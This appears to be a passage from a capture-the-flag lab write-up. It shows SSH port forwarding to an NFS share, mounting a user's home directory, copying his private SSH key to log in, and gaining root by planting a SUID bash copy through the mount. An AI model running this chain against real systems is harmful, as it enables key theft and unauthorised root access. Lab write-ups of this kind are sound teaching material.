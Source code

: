 `ssh -fN paradox@10.10.239.53 -L 2049:localhost:2049`

Intro about switches.

`f` : Requests ssh to go to background just before command execution. This is useful if ssh is going to ask for passwords or passphrases, but the user wants it in the background.

`N` : Do not execute a remote command.  This is useful for just for‐warding ports.

`L` (port:host:hostport) : Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.

After the forwarding port test this port using **nmap**.

`nmap -T4 -n -sC -sV -p 2049 localhost`

![portforwarding nmap scan]()

here we can see nfs port is open in attacker machine. Now lets mount the **/home/james** directory into attacker **/tmp/nfstmp** directory. by using mount command.

`mount -t nfs localhost:/ /tmp/nfstmp`

After mount this directory check the all files list.

![user flag]()

And we got our user flag. Now open the **.ssh** directory and copy the **id_ras** into attacker machine and change the permission using chmod command.

![james ssh key]()

after change the permission try to login into james account using ssh command in new terminal window.

`ssh -i id_rsa james@10.10.239.53`

![successfully logged in throw ssh in james acc]()

We successfully logged into james account.

# Root Privilege Escalation

We can copy any file into the mounted directory so lets upload the **bash** program.

`sudo cp /bin/bash .`

And add the SUID permission.

`sudo chmod +s bash`

![successfully copy bash with SUID perm]()

Now go to the james sshed logged in window. and execute the bash file using bellow command.

`./bash -p`

And Now we successfully got root access.

![root flag]()